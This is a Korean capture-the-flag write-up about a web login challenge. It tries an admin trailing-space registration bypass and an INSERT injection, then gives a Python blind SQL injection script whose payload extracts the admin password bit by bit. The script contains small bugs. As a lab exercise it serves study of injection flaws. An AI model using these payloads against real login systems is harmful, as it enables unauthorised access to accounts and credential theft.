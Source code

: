 # 문제

- id, pw를 입력할 수 있고
- login, join 버튼이 존재한다.
- login시
  - 성공시 id와 md5 해쉬된 패스워드 값이 출력된다.
  - 실패시 Login Fail이 출력된다
- join시
  - id, pw를 가입할 수 있다.



# 풀이

- 블라인드 인젝션으로 하면 쉽게 풀수있을 것 같았지만

  - `join`기능을 만든 이유가 있을거라고 생각했다.

- `join`으로 우회해서 admin으로 로그인할 방법을 찾아보았다.

  - mysql에서 뒤에 공백을 추가해서 id를 만들어도 조회시에 똑같은 조건으로 검색된다.
    - `admin공~~~~~~백` 으로 가입해보려고 했지만 `no admin`이 출력되었다.
    - 문자열로 입력했기 때문이라고 생각해서
      - insert 쿼리 조작으로 `aaa', 'aaa'),(0xadmin공~~백의 헥스값, 1234)#` 이렇게 뒤에다가 insert 값을 추가해서 헥스로 넣어보려고 했지만 id가 길다고 나온다.
        - php에서 검사하는것 같다.
  - 방법을 못찾겠다.. 블라인드 인젝션으로 풀자

- 코딩

  ```python
  while True:
      words = ''
      for idx in range(7): 
          payload = 'admin\'&&substr(lpad(conv(hex(substr(pw,{0},1)),16,2),7,0),{1},1)=1#'
          payload = payload.format(len(flags)+1, idx+1)
          params= {'uuid': payload, 'pw':'guest'}
          print params
  
          res = requests.post(url+page, data=params, cookies= cookies)
          if res.text.find('Fail') != -1:
              words += '0'
          else:
              words += '1'
  
  
      ch = int(words,2)
      if ch == '\00':
          break
      else:
          ch = chr(ch)
          print 'founded...'
          print 'words: ' + ch
          flags += ch
          print 'flags: ' + flags
          
  
  print 'founded successfully...'
  print 'flag is here!: ' + flags
  
  ```

  

# 알게된 것

### insert 시 뒤에 공백 삽입으로 우회 in sql

- `'admin'`, `'admin공~~~~~백'`을 삽입한 후
  - `select * from where id='admin'`을 조회하면 두가지 값 모두 반환한다.



### 숫자는 문자열숫자값과 같다 in sql

- 예를들어
  - `select '5'=5`를 하면 1이 반환된다.
  - `select '6'=5`를 하면 0이 반환된다.
- 놀랍구나..